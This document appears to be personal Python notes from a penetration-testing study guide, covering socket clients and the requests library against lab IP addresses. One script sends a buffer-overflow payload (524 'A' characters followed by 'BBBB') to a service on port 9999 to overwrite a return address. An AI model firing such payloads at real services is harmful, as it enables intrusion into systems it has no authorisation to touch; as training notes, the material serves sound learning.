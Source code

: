 # Python notes

### 1\) New socket connection

### Python requests

![](../../.gitbook/assets/image%20%28104%29.png)

* It accepts data in JSON format, except the URL parameter which is a string. If we have to send "`name=a`" then,
  * `{"name":"a"}`
* `url = "http://10.10.10.179/api/getColleagues"`
* `data = {"name":"a"}` 
* `header = {"Content-Type":"application/json;charset=utf-8"}` 
* `proxy = {"http":"127.0.0.1:8080"}`
* `r = requests.post(url, json=data, headers=header, proxies=proxy)`
  * We need to specify "json=data" as already we are specifying "data" in json format. But actually the request need data is raw json format.

```text
#!/usr/bin/python

# Import socket module 
import socket                
  
# Create a socket object 
try :
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
except :
  print ("socket creation failed")         
  
# Define the port on which you want to connect 
port = 12345                
ip = "127.0.0.1"
# connect to the server on local computer 

try : 
  s.connect((ip, port)) 
  # receive data from the server 
  print (s.recv(1024)) 
except : 
  print ("connection failed")

# close the connection 
s.close()
```

sample socket code

```text
#!/usr/bin/python

import socket

junk = 'A'*524
payload = junk + "BBBB"

print payload

try :
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
except :
	print ("failed socket connection")

host_ip = "192.168.137.104"
host_port = 9999

try:
	connect = s.connect((host_ip, host_port))
	data = s.recv(1024)
	s.send(payload + '\r\n')
	data = s.recv(1024)

except:
	print ("no")

```

### 2\) Carriage return

`'\r\n'` : Equivalent to "enter" of keyboard.

## Example 2 : Create simple request response

```text
import requests
import json

url = "http://10.10.10.179/api/getColleagues"

data = {"name":"a"}
header = {"Content-Type":"application/json;charset=utf-8"}
proxy = {"http":"127.0.0.1:8080"}
r = requests.post(url, json=data, headers=header, proxies=proxy)
print(r.text)
```

